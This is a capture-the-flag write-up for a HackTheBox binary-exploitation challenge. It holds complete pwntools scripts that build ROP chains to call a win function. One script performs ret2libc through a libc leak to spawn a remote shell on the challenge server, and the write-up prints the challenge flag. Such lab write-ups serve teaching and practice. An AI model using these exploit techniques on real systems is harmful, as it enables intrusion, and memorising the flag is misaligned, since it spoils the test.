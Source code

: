 # Rocket Blaster XXX
> Write-up author: jon-brandy

## Lessons Learned:
1. ROP gadgets.
2. Manipulate return address.
3. Popping 3 gadgets.

## DESCRIPTION:

<p align="justify">Prepare for the ultimate showdown! Load your weapons, gear up for battle, and dive into the epic fray—let the fight commence!</p>

## STEPS:
1. In this challenge we're given a 64 bit binary, dynamically linked, not stripped.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/2cdc17fb-5d88-45ec-8a5e-7064831289ec)

> BINARY PROTECTIONS

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/b1dcc35f-4b1c-4a7d-8c56-d1ebb6adf6d9)

2. Upon reviewing the decompiled code on ghidra, we can see the main() function only accepts 1 input then terminate the process.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/5f536ba1-7a27-4e01-8a2e-948f1ff74397)


3. Reviewing other functions, we noticed a function named `fill_ammo` which opens the flag file then print it's content.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/227056a6-41a1-48c7-aeaa-b27fe8e5fabd)


4. Seems the objective here is to return to `fill_ammo`. Noticed the `fill_ammo` function accepts 3 params, those 3 also used for a checker.
5. However since there is no canary and PIE is disabled, hence it's very easy for us to pwn the binary.

> GET RIP OFFSET --> 40

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/36e46731-9e73-47e8-b89a-fbf0904df6e2)


6. Great! Next, let's search for useful gadgets.
7. Popping 3 values to param, means we need RDI (as the 1st arg), RSI (as the 2nd arg), and RDX (as the 3rd arg).

> CHECK FOR GADGETS

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/65206058-c5e4-499d-932a-6e217ab06019)


8. Nice! The gadgets are available.
9. We can do simple ROP then, here's the crafted script.

> SCRIPT

```py
from pwn import *

exe = './rocket_blaster_xxx'
elf = context.binary = ELF(exe, checksec=True)
context.log_level = 'INFO'
# context.log_level = 'DEBUG'

library = './glibc/libc.so.6'
libc = context.binary = ELF(library, checksec=False)

sh = process(exe)

rop = ROP(elf)
p = flat([
    cyclic(40),
    rop.find_gadget([
        'ret'
    ]).address,
    rop.find_gadget([
        'pop rdi',
        'ret'
    ]).address,
    0xdeadbeef,
    rop.find_gadget([
        'pop rsi',
        'ret'
    ]).address,
    0xdeadbabe,
    rop.find_gadget([
        'pop rdx',
        'ret'
    ]).address,
    0xdead1337,
    elf.sym['fill_ammo']
])

sh.sendline(p)
sh.interactive()
```

> REMOTE TEST

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/47027ad9-d23b-42e8-8da2-7cc3e26364f2)

10. As you can see, we got the flag!.

> ALTERNATE SCRIPT (much shorter using ropstar).

```py
from pwn import *

exe = './rocket_blaster_xxx'
elf = context.binary = ELF(exe, checksec=True)
context.log_level = 'INFO'
# context.log_level = 'DEBUG'

library = './glibc/libc.so.6'
libc = context.binary = ELF(library, checksec=False)

# sh = process(exe)
sh = remote('94.237.54.176',59344)

rop = ROP(elf)
rop.call(rop.ret.address)
rop.fill_ammo(0xdeadbeef,0xdeadbabe,0xdead1337)

p = cyclic(40) + rop.chain()

sh.sendline(p)
sh.interactive()
```

### GAINED RCE

1. Remembering there is no canary, no PIE, and RDI is available. We can perform ret2libc here.
2. Simply leak the printf@got address to calculate the libc base.
3. Then execute another ROP to perform `system("/bin/sh")`.
4. Here's the crafted script.

> SCRIPT (RCE)

```py
from pwn import *

exe = './rocket_blaster_xxx'
elf = context.binary = ELF(exe, checksec=True)
context.log_level = 'INFO'
# context.log_level = 'DEBUG'

library = './glibc/libc.so.6'
libc = context.binary = ELF(library, checksec=False)

# sh = process(exe)
sh = remote('94.237.54.176',59344)
rop = ROP(elf)

p = flat([
    cyclic(40),
    rop.find_gadget(['pop rdi', 'ret'])[0],
    elf.got['printf'],
    elf.plt['puts'],
    elf.sym['main']
])

sh.sendline(p)
sh.recvuntil(b'testing..')
sh.recvline()

leak = unpack(sh.recv(6) + b'\x00' * 2)
success(f'LIBC LEAK --> {hex(leak)}')
libc.address = leak - libc.sym['printf']
info(f'LIBC BASE --> {hex(libc.address)}')

p = flat([
    cyclic(40),
    rop.find_gadget(['ret']).address,
    rop.find_gadget(['pop rdi', 'ret']).address,
    next(libc.search(b'/bin/sh\x00')),
    libc.sym['system']
])

sh.sendline(p)
sh.interactive()
```

> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/35662783-d365-46d8-bdd0-c2fea4f133ff)


5. Nice! We've pwned it!


## FLAG

```
HTB{b00m_b00m_b00m_3_r0ck3t5_t0_th3_m00n}
```
